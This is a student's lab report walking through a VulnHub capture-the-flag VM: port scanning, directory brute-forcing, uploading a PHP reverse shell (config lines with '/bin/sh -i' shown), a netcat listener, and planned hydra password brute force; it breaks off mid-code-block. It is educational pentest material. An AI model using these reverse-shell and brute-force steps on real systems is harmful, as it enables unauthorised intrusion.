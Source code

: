  Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°546

Targets : Reconnaissance, brute force, exploit, web, privilege escalation

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
![picture 1](../images/ad7f8acf0ce7fab98ee21d1d6eed7be60aa2a356a3600f68404373a548c0602f.png)  

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.9
$ sudo nmap -sC -sV -Pn 10.0.2.9
```  
![picture 2](../images/541a238f4209f27f8c725c5a7fb111de46e584ed35d03e2ed91cc907d3ae509c.png)  

![picture 3](../images/3b973d0b72edd980b20f600b241a8ad3c5507d3b8a50479943f3626629e6a117.png)  


Now we can see that theses ports are open (all TCP) :
- port 22 —  OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
- port 80 - Apache httpd 2.4.18 ((Ubuntu))
- port 110 - Dovecot pop3d
- port 143 - Dovecot imapd

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can see that the web server is running on port 80, so we can try to find something on it with dirb.

```bash
$ dirb http://10.0.2.9
```

![picture 4](../images/26667cd50694326a941d37d7c7717a757a83a73b651afd87073576e68a2f2420.png)  

Nothing intresting here, so we can try to find something else with Dirsearch.

```bash
$ sudo apt install dirsearch
$ sudo dirsearch -u http://10.0.2.9 -U
```
`-U` is for using the UPPER case letters in wordlist. (hint in the vulnhub description)

![picture 0](../images/a0b2bae8a8fa21ed7f4fb9ae40c7d5b1ac3529efc7a8bb7fe762abad2f7d81d5.png)  

We can find ROBOTS.txt, so we can try to access it.

In the page we can see 2 things at the top and at the bottom of the page :

![picture 1](../images/7e89c2c2e8ab0d6251c25553feddd29aa1a4d948c25aefae7e6ad19a3e6be7b6.png)  


![picture 2](../images/e40a489de70dc0f6dcb9bdb21c7aa7982939feefb4e70ef58799c3966716dc17.png)  


We can try to access the page upload.php, but there is nothing in here...

The other string is more interesting, we don't have any access to this directory, maybe scan it with a tool like dirb or dirsearch.

![picture 3](../images/18e888b33f8ce694f5892fd8c3d1ea4b5c43df42257f3a6d9fcf337191e41928.png)  


With dirssearch we can find a new upload directory with one page to upload php files and another to upload html files.

![picture 4](../images/d5b84c75bbe00cfa1b963758323181a9e3fa5aec58c29b7129f5db2788bb5cac.png)  


![picture 5](../images/f60e59a12ab4e71aea2353d49caf922ecb35d2ac085bd299ca8f701535963cff.png)  


We can try to upload a file to get a reverse shell like the Lab4.
Just insure that the IP address and the port are correct in the port (the kali machine and a random port 8080 for me)
With this script
[Github source of php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![picture 6](../images/b1a61e9c4f44bd437aff5cfeb10831b9523f70c7a3242e76f7540b531831d695.png)  


```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'kali-ip';  // CHANGE THIS
$port = 8080;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We can listen with `nc -v -n -l -p 8080`

We need to access to this url to activate the reverse shell : `http://10.0.2.9/igmseklhgmrjmtherij2145236/upload/php-reverse-shell.php3`

![picture 7](../images/9eecf5b87975b9ad72fe3066c8e409eabd6624f8d2f5072202298faf1242901c.png)  

With that, we can access to a reverse shell with the user www-data.

Now, we can try to find a way to escalate privileges.
There is a hint in the www-data home directory, so we can try to find something in it.

![picture 8](../images/c3f9a2c451e1d3dac7a4c619a7fb28f6d445b5fc24f5255e75fa82cf89477a15.png)  


The hint mentions rockyou.txt and sed which is used for searching, replacing, and inserting/deleting text in a .txt document.

We can search other hints in other users in the system.

2 users are in the system : `anna` & `thomas`.

![picture 9](../images/71769649d93e524ff7a7ba2a23c4a74ebc584829accd4075af38d4905248d218.png)  

anna's directory is not accessible, but we can access to thomas's directory.
nothing in there, just one file interesting, `.todo`

![picture 10](../images/80d20d2e02a65eb6a3f54ccb32480177979c7d8c32d8ca4bb341029b47cb3a78.png)  

In todo file, we can see that thomas has to take a exclamation point to his passwords.

So maybe we can try to add a exclamation point to the password of thomas with sed and exploit it with hydra and rockyou.txt.

```bash